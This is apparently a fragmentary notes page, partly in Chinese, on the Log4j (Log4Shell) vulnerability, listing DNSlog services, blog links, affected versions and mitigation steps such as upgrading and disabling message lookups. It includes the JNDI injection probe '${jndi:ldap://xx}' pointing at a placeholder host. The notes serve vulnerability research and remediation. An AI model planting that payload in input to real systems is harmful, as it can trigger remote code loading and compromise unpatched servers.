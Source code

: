 https://ip.tool.chinaz.com/

http://admin.dnslog.link/

https://github.com/bugscanteam/dnslog/
https://www.freesion.com/article/67671308826/
http://www.dnslog.cn/
https://www.cnblogs.com/sunny11/p/14399420.html

${jndi:ldap://xx}

影响的版本范围：Apache Log4j 2.x <= 2.14.1
https://www.cnblogs.com/personblog/p/14510355.html

 log4j2 快速修复措施
修改log4j2版本
据 Apache 官方最新信息显示，release 页面上已经更新了 Log4j 2.15.0 版本，主要是那个log4j-core包，漏洞就是在这个包里产生的，如果你的程序有用到，尽快紧急升级。
临时解决方案
设置jvm参数 “-Dlog4j2.formatMsgNoLookups=true”
设置“log4j2.formatMsgNoLookups=True”
系统环境变量“FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS”设置为“true”
关闭对应应用的网络外连，禁止主动外连
https://blog.csdn.net/lumingzhu111/article/details/121871114
https://blog.csdn.net/MEIYOUDAO_JIUSHIDAO/article/details/121956992

https://github.com/elastic/elasticsearch/search?q=log4j

build-tools-internal/src/testKit/thirdPartyAudit/sample_jars/build.gradle
docs/changelog/82111.yaml
build-tools-internal/version.properties
https://github.com/elastic/elasticsearch/pull/82111/files
https://www.lunasec.io/docs/blog/log4j-zero-day-severity-of-cve-2021-45046-increased/
